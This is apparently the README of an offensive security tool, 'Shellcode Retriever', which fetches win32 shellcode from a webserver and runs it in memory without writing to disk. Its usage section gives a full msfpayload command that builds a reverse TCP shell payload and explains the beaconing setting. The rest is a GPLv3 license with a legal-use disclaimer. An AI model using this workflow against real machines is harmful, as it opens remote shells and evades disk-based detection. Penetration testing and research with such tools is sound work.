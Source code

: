 ##Shellcode Retreiver
Downloads win32 shellcode from webservers and executes the shellcode without it touching disk (using the following method: http://www.debasish.in/2012_04_01_archive.html)

Demo:

http://www.youtube.com/watch?v=R15B2p-uWKY

---

For use by IT professionals and researchers.

Usage:

Create shellcode using the following msfpayload command:

msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=8080 EXITFUNC=thread R > test.txt

Notice the exit function, very important if you want the process to run and beacon out based on timeouts in the source code.

Upload the shellcode to your webserver.

Compile the python code to an executeable by using pyinstaller.


---

##License:   GPLv3


    Shellcode Retriever

    Author Joshua Pitts the.midnite.runr 'at' gmail <d ot > com
    
    Copyright (C) 2013, Joshua Pitts

    License:   GPLv3

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    See <http://www.gnu.org/licenses/> for a copy of the GNU General
    Public License

    This program is to be used for only legal activities by IT security
    professionals and researchers. Author not responsible for malicious
    uses.